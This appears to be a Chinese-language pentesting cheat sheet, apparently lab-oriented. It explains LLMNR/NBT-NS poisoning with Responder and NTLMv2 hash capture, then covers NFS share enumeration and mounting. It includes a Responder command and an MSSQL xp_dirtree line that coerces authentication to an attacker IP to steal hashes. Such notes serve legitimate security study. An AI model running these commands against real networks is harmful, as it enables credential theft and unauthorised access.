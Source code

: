 ### LLMNR / NBT-NS中毒攻击？

**什么是LLMNR / NBT-NS中毒攻击？**

> 通过侦听LLMNR和NetBIOS广播，攻击者可以伪装成受害者（客户端）要访问的目标机器，从而让受害者乖乖交出相应的登陆凭证。在接受连接后，攻击者可以使用Responder.py或Metasploit等工具将请求转发到执行身份验证过程的流氓服务（如SMB
> TCP：137）。
> 在身份验证过程中，受害者会向流氓服务器发送用于身份认证的NTLMv2哈希值，这个哈希值将被保存到磁盘中，之后就可以使用像Hashcat或John
> Ripper（TJR）这样的工具在线下破解，或直接用于 pass-the-hash攻击。

**Responder**

> Responder是监听LLMNR和NetBIOS协议的工具之一,能够抓取网络中的所有LLMNR和NetBIOS请求并进行响应,获取最初的账户凭证,可以利用内置SMB,MSSQL,
> HTTP,DNS, POP3,FTP 等服务器,收集目标文件的凭证

```
responder -I tun0 -i local.ip
```

在sqlserver中或者smb中执行，让sql去请求我们创造的虚假的服务，sql服务会对我们的服务进行省份验证，可以拦截到身份验证的hash

```
EXEC MASTER.sys.xp_dirtree '\\10.10.16.8\test', 1, 1
```



## 2049端口 NFC

查看挂载

**语法格式**：showmount 参数 域名或IP地址

常用参数：

> -a显示客户端主机名和挂载目录
>
> -d 仅显示已被NFS客户端加载的目录 
>
> -v 显示版本信息
>
> -e 显示NFS服务器上所有的共享目录

```
sudo showmount -e x.x.x.x
```

### mount

进行挂载

```
sudo mount -o rw 10.10.10.10:/tmp /home/kali/mount1
```



## 3306端口 mysql
